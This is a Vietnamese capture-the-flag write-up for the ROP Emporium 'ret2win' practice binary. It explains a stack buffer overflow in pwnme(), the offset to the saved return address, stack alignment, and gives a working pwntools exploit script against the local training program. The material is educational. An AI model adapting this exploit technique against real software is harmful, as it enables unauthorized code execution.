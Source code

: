 # ROP_Emporium - ret2win

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)

```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Ở đây chỉ có 2 hàm thú vị:

Hàm pwnme()

![pwn.png](images/pwnme.png)

Và hàm ret2win()

![ret2win.png](images/ret2win.png)

Ở hàm pwnme() ta có thể thấy tại dòng thứ 10 cho phép ghi 0x38 ký tự vào biến `s` nhưng biến `s` chỉ được khai báo 0x20 bytes --> **Buffer Overflow**

# 2. Ý tưởng

Như tên đề bài là return to win. Vậy ta chỉ việc overwrite saved rip ở trong pwnme thành địa chỉ hàm win.

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Bởi vì địa chỉ của return address lớn hơn địa chỉ biến nhập vào `0x28` vì vậy ta chỉ việc tạo script để ghi đè saved rip thành địa chỉ hàm ret2win():

Nhưng khi đó RSP không chia hết cho 0x10 dẫn đến chương trình bị lỗi khi chạy

![stack1.png](images/stack1.png)

![sigsev.png](images/sigsev.png)

Ta sẽ bỏ qua phần printf để nhảy đến `[ret2win + 14]`

![stack2.png](images/stack2.png)

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./ret2win', checksec=False)

p = process("./ret2win")

#gdb.attach(p, gdbscript='''''')

payload = flat(
    cyclic(0x28),
    elf.sym['ret2win']+14
    )
p.sendlineafter(b">",payload)
p.interactive()

```

# 4. Lấy flag

![flag.png](images/flag.png)


